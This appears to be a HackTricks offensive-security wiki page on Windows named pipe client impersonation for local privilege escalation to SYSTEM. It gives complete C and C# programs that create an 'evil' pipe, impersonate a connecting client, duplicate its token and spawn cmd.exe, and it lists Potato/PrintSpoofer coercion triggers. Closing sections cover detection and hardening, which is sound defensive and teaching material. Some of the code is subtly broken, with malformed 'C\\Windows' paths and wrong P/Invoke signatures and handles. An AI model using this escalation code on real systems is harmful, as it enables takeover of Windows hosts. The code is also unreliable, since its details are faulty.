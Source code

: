 # Named Pipe Client Impersonation

{{#include ../../banners/hacktricks-training.md}}

Named Pipe client impersonation is a local privilege escalation primitive that lets a named-pipe server thread adopt the security context of a client that connects to it. In practice, an attacker who can run code with SeImpersonatePrivilege can coerce a privileged client (e.g., a SYSTEM service) to connect to an attacker-controlled pipe, call ImpersonateNamedPipeClient, duplicate the resulting token into a primary token, and spawn a process as the client (often NT AUTHORITY\SYSTEM).

This page focuses on the core technique. For end-to-end exploit chains that coerce SYSTEM to your pipe, see the Potato family pages referenced below.

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- Make a privileged component connect to it (spooler/DCOM/EFSRPC/etc.).
- Read at least one message from the pipe, then call ImpersonateNamedPipeClient.
- Open the impersonation token from the current thread, DuplicateTokenEx(TokenPrimary), and CreateProcessWithTokenW/CreateProcessAsUser to get a SYSTEM process.

## Requirements and key APIs
- Privileges typically needed by the calling process/thread:
  - SeImpersonatePrivilege to successfully impersonate a connecting client and to use CreateProcessWithTokenW.
  - Alternatively, after impersonating SYSTEM, you can use CreateProcessAsUser, which may require SeAssignPrimaryTokenPrivilege and SeIncreaseQuotaPrivilege (these are satisfied when you’re impersonating SYSTEM).
- Core APIs used:
  - CreateNamedPipe / ConnectNamedPipe
  - ReadFile/WriteFile (must read at least one message before impersonation)
  - ImpersonateNamedPipeClient and RevertToSelf
  - OpenThreadToken, DuplicateTokenEx(TokenPrimary)
  - CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: to perform useful actions locally, the client must allow SecurityImpersonation (default for many local RPC/named-pipe clients). Clients can lower this with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION when opening the pipe.

## Minimal Win32 workflow (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
    LPCSTR pipe = "\\\\.\\pipe\\evil";
    HANDLE hPipe = CreateNamedPipeA(
        pipe,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        1, 0, 0, 0, NULL);

    if (hPipe == INVALID_HANDLE_VALUE) return 1;

    // Wait for privileged client to connect (see Triggers section)
    if (!ConnectNamedPipe(hPipe, NULL)) return 2;

    // Read at least one message before impersonation
    char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

    // Impersonate the last message sender
    if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

    // Extract and duplicate the impersonation token into a primary token
    HANDLE impTok = NULL, priTok = NULL;
    if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
    if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

    // Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
    STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
    if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
                                 L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                                 0, NULL, NULL, &si, &pi)) {
        // Fallback: CreateProcessAsUser after you already impersonated SYSTEM
        CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                             NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    }

    RevertToSelf(); // Restore original context
    return 0;
}
```
Notes:
- If ImpersonateNamedPipeClient returns ERROR_CANNOT_IMPERSONATE (1368), ensure you read from the pipe first and that the client didn’t restrict impersonation to Identification level.
- Prefer DuplicateTokenEx with SecurityImpersonation and TokenPrimary to create a primary token suitable for process creation.

## .NET quick example
In .NET, NamedPipeServerStream can impersonate via RunAsClient. Once impersonating, duplicate the thread token and create a process.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
  [DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
  [DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
  [DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
  static void Main(){
    using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
    s.WaitForConnection();
    // Ensure client sent something so the token is available
    s.RunAsClient(() => {
      IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
      IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
      var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
      Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
    });
  }
}
```

## Common triggers/coercions to get SYSTEM to your pipe
These techniques coerce privileged services to connect to your named pipe so you can impersonate them:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}
-
{{#ref}}
juicypotato.md
{{#endref}}

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
{{#ref}}
from-high-integrity-to-system-with-name-pipes.md
{{#endref}}
-
{{#ref}}
service-triggers.md
{{#endref}}

## Troubleshooting and gotchas
- You must read at least one message from the pipe before calling ImpersonateNamedPipeClient; otherwise you’ll get ERROR_CANNOT_IMPERSONATE (1368).
- If the client connects with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, the server cannot fully impersonate; check the token’s impersonation level via GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW requires SeImpersonatePrivilege on the caller. If that fails with ERROR_PRIVILEGE_NOT_HELD (1314), use CreateProcessAsUser after you already impersonated SYSTEM.
- Ensure your pipe’s security descriptor allows the target service to connect if you harden it; by default, pipes under \\.\pipe are accessible according to the server’s DACL.

## Detection and hardening
- Monitor named pipe creation and connections. Sysmon Event IDs 17 (Pipe Created) and 18 (Pipe Connected) are useful to baseline legitimate pipe names and catch unusual, random-looking pipes preceding token-manipulation events.
- Look for sequences: process creates a pipe, a SYSTEM service connects, then the creating process spawns a child as SYSTEM.
- Reduce exposure by removing SeImpersonatePrivilege from nonessential service accounts and avoiding unnecessary service logons with high privileges.
- Defensive development: when connecting to untrusted named pipes, specify SECURITY_SQOS_PRESENT with SECURITY_IDENTIFICATION to prevent servers from fully impersonating the client unless necessary.

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

{{#include ../../banners/hacktricks-training.md}}
